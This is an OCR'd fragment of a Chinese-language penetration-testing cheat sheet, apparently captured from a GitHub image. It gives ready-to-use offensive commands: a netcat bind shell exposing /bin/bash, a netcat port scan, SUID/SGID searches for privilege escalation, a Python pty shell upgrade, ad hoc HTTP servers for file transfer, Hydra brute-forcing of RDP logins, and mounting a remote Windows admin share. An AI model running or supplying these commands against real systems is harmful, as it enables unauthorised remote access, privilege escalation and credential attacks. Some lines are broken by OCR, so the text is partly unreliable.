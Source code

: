 nc -lp 31337 -e /bin/bash
nc 192.168.0.10 31337
nc -vv -r(random) -w(wait) 1 192.168.0.10 -z(i/o error) 1-1000
```
查找 SUID\SGID root 文件
```
# 查找 SUID root 文件
find / -user root -perm -4000 -print

# 查找 SGID root 文件:
find / -group root -perm -2000 -print

# 查找 SUID 和 SGID 文件:
find / -perm -4000 -o -perm -2000 -print

# 查找不属于任何用户的文件:
find / -nouser -print

# 查找不属于任何用户组的文件:
find / -nogroup -print

# 查找软连接及其指向:
find / -type l -ls

Python shell

python -c 'import pty;pty.spawn("/bin/bash")'

Python\Ruby\PHP HTTP 服务器

python2 -m SimpleHTTPServer
python3 -m http.server
ruby -rwebrick -e "WEBrick::HTTPServer.new(:Port => 8888, :D
 ocumentRoot => Dir.pwd).start"
php -S 0.0.0.0:8888
```
获取进程对应的 PID
```
fuser -nv tcp 80
fuser -k -n tcp 80
```
使用 Hydra 爆破 RDP
```
hydra -l admin -P /root/Desktop/passwords -S X.X.X.X rdp
```
挂载远程 Windows 共享文件夹
```
smbmount //X.X.X.X/c$ /mnt/remote/ -o username=user,password=pass,rw
